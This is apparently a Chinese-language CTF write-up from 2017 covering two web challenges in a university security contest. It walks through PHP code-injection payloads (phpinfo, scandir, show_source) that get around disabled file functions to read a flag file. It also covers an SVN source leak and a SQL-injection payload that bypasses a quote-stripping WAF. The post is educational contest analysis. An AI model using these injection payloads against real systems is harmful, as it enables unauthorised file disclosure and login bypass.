 ```yaml
---
title: 国赛的两个Web题
date: 2017-09-10 15:58:56
tags:
	- CTF
	- 全国大学生信息安全竞赛
	- Writeup
---
```

在全国大学生信息安全竞赛(线上赛)上划了波水，对我来说题目挺难的，好多姿势都没见过。
<!-- more -->

## 0x00 两个最简单的Web的题解


### Web-PHP execise
这个题目考察了PHP的几个简单的语法
首先在题目中执行phpinfo()函数
![image](http://osn75zd5c.bkt.clouddn.com/Web-PHPexcise-1.png)
在其中的找到被禁用的函数

```
disable_functions
assert,system,passthru,exec,pcntl_exec,shell_exec,popen,proc_open,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,fopen,file_get_contents,fread,file_get_contents,file,readfile,opendir,readdir,closedir,rewinddir,
```
然后通过getcwd()函数获取服务器当前目录路径
```
echo getcwd()
```
![image](http://osn75zd5c.bkt.clouddn.com/Web-PHPexcise-2.png)
从而获取路径

```
/var/www/html
```
然后获取当前目录下的所有文件的文件名
```p&#39;h&#39;p
$dir="/var/www/html";print_r(scandir($dir))
```
![image](http://osn75zd5c.bkt.clouddn.com/Web-PHPexcise-3.png)
判断flag在flag_62cfc2dc115277d0c04ed0f74e48e3e9.php这个文件中，但是PHP几乎所有对文件操作的函数都被禁用了。在这时想到了以前表哥们给我们出题的时候，有的Web题的源码直接显示在网页上了，利用的show_source()函数.于是乎：

```php
include"flag_62cfc2dc115277d0c04ed0f74e48e3e9.php";show_source("flag_62cfc2dc115277d0c04ed0f74e48e3e9.php")
```
从而获取flag

![image](http://osn75zd5c.bkt.clouddn.com/Web-PHPexcise-4.png)

### Web-wanna to see your hat?
这题有毒，不拿到flag就给你10个绿帽子。。(╯‵□′)╯︵┻━┻

主要考察的代码审计和SQL注入。首先有一个SVN源码泄露漏洞，利用工具将网站所有的源码下载下来，进行审计。关键代码如下:

```php
$_POST=d_addslashes($_POST);
$_GET=d_addslashes($_GET);
function d_addslashes($array){
        foreach($array as $key=>$value){
        if(!is_array($value)){
            !get_magic_quotes_gpc() && $value=addslashes($value);
            waf($value);
            $array[$key]=$value;
        }   
    }   
    return $array;
}
function waf($value){
    $Filt = "\bUNION.+SELECT\b|SELECT.+?FROM";
    if (preg_match("/".$Filt."/is",$value)==1){
        die("found a hacker");
    }
    $value = str_replace(" ","",$value);  
    return $value;
}
if (isset($_POST["name"])){
  $name = str_replace("'", "", trim(waf($_POST["name"])));
  if (strlen($name) > 11){
    echo("<script>alert('name too long')</script>");
  }else{
    $sql = "select count(*) from t_info where username = '$name' or nickname = '$name'";
    echo $sql;
    $result = mysql_query($sql);
    $row = mysql_fetch_array($result);
    if ($row[0]){
      $_SESSION['hat'] = 'black';
      echo 'good job';
    }else{
	$_SESSION['hat'] = 'green';
    }
```
最终目的是令$_SESSION['hat'] = 'black';这也就意味着在执行SQL语句时，可以返回数据。但是，在register.php的插入语句为

```php
$sql = "insert into t_user (username,nickname,password) values('".$_POST['username']."', '".$_POST['nickname']."','".md5($_POST['password'])."')";
```
它注册时写入数据的表与登陆时查询的表不是一个，这也把我的思路带偏了，我一开始认为，在register.php里面构造语句在t_info表中插入数据。但根据查到的资料显示，SQL只允许一个插入语句对一个表操作。没辙了。。去请教表哥们。
关键点在login.php，即登录界面。
关键语句
```php
$name = str_replace("'", "", trim(waf($_POST["name"])));
```
在POST传入name时，如果传进的字符串中有“'”单引号，则会被加上反斜杠进行转义，然后在waf里面，若有空格则会被去掉。然后“\'”中的单引号被去掉，成为了“\”,若这个反斜杠在结尾，则会把 
```php
$sql = "select count(*) from t_info where username = '$name' or nickname = '$name'";
```
第一个name的第二个单引号转义，导致

```php
$name' or nickname =
```
成为了字符串。因此令

```php
name==(0)=1#'	
```
最终执行的SQL语句为
```php
$sql = "select count(*) from t_info where username = '=(0)=1#\' or nickname = '=(0)=1#\'";
```
该语句为真，因此返回数据，使得$_SESSION['hat'] = 'black';从而返回flag
![image](http://osn75zd5c.bkt.clouddn.com/Web-green-1.png)
